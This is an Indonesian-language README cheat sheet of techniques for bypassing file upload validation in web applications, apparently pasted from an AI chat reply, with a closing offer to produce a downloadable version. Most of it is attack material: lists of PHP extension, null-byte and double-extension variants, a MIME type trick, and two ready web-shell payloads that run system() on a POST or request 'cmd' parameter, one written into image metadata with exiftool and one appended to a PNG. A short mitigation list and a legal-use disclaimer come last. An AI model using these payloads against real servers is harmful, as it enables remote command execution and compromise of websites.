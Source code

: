 # 📂 Unrestricted File Upload Bypass Techniques

![License](https://img.shields.io/badge/license-Educational-blue)
![Status](https://img.shields.io/badge/status-Active-brightgreen)
![Security](https://img.shields.io/badge/security-awareness-important)

> 📖 **Dokumen ini menjelaskan berbagai teknik umum yang digunakan untuk bypass pembatasan unggah file pada aplikasi web.**
> Ditujukan untuk **peneliti keamanan**, **penetration tester**, dan **developer** dalam mengidentifikasi potensi celah dan membangun mitigasi yang tepat.

---

## 📖 Daftar Isi

* [Deskripsi](#deskripsi)
* [Tabel Summary Bypass](#📊-tabel-summary-bypass)
* [Bypass Ekstensi File Umum](#bypass-ekstensi-file-umum)
* [Bypass Magic Number](#📌-teknik-bypass-magic-number)
* [Bypass Tipe MIME](#bypass-tipe-mime)
* [Teknik Unggah File Tanpa Batasan](#teknik-unggah-file-tanpa-batasan)
* [Rekomendasi Mitigasi](#📌-rekomendasi-mitigasi)
* [Lisensi](#📑-lisensi)
* [Kontak](#📬-kontak)

---

## Deskripsi

Serangan unrestricted file upload memungkinkan penyerang mengunggah file berbahaya ke server karena validasi yang lemah. Teknik di dokumen ini memanfaatkan celah pada:

* Validasi ekstensi file
* Pemeriksaan MIME type
* Pemeriksaan magic number file
* Sanitasi nama file yang buruk

---

## 📊 Tabel Summary Bypass

| Teknik                     | Contoh Ekstensi / Metode             | Tujuan                               |
| :------------------------- | :----------------------------------- | :----------------------------------- |
| **Bypass Ekstensi**        | `.php`, `.php5`, `.php.jpg`          | Menipu validasi ekstensi             |
| **Magic Number Injection** | Inject PHP code via `Exiftool`       | Menyisipkan shell di metadata gambar |
| **MIME Type Bypass**       | `application/x-httpd-php`            | Mengakali pengecekan tipe konten     |
| **Encoded Extension**      | `.php%00`, `.php%20`, `.php%0a`      | Menyembunyikan ekstensi asli         |
| **Double/Mixed Extension** | `.png.php`, `.jpg.pHp5`, `.php#.png` | Menyiasati pemeriksaan nama file     |

---

## Bypass Ekstensi File Umum

Beberapa ekstensi yang umum digunakan untuk bypass:

```
.php, .php5, .phtml, .pgif, .phar, .cgi, .pl, .py, .Php, .php.jpg, .php.bak, .exe
```

**Variasi:**

* `.php56`, `.php.test`, `.php.docx`, `.php.unknown`
* `.php.xxxjpg`, `.php.xxxpdf`, `.php.xxxzip`

---

## 📌 Teknik Bypass Magic Number

### 📌 Inject Metadata via Exiftool

```bash
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

---

### 📌 Append PHP Code ke File Gambar

```bash
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

---

## Bypass Tipe MIME

Bypass validasi dengan tipe MIME:

```
application/x-httpd-php
```

---

## Teknik Unggah File Tanpa Batasan

### 📌 Encoded Extension

```
.php%00, .php%20, .php%0a, .php/, .php....
```

### 📌 Double / Mixed Extension

```
.png.php, .php#.png, .php%00.png, .png.jpg.php
```

---

## 📌 Rekomendasi Mitigasi

✅ Validasi **whitelist ekstensi file**

✅ Pemeriksaan **MIME type di server**

✅ Verifikasi **magic number file**

✅ Sanitasi nama file dari karakter spesial

✅ Simpan file **di luar web root**

✅ Atur **file permission non-eksekusi**

✅ Batasi ukuran & scan isi file

---

## 📑 Lisensi

Distribusi untuk tujuan edukasi & keamanan siber.
**Gunakan dengan tanggung jawab.**

---

## 📬 Kontak

📧 **[sinzoxp@example.com](mailto:sinzoxp@example.com)**
📱 Telegram: [@avxxr00t](https://t.me/avxxr00t)

---

## 📌 Note Tambahan

🚨 **Disclaimer:**
Gunakan teknik ini hanya untuk **penetration testing legal** atau riset di lingkungan yang Anda miliki izin penuh.

---

## 📎 Preview Markdown

Jika ingin langsung dipasang ke repository GitHub, tinggal simpan dengan nama `README.md`.

---

Kalau mau sekalian kubuatin versi markdown file-nya (.md) siap download juga, tinggal beri tahu aja bro! Mau? 🚀🔥
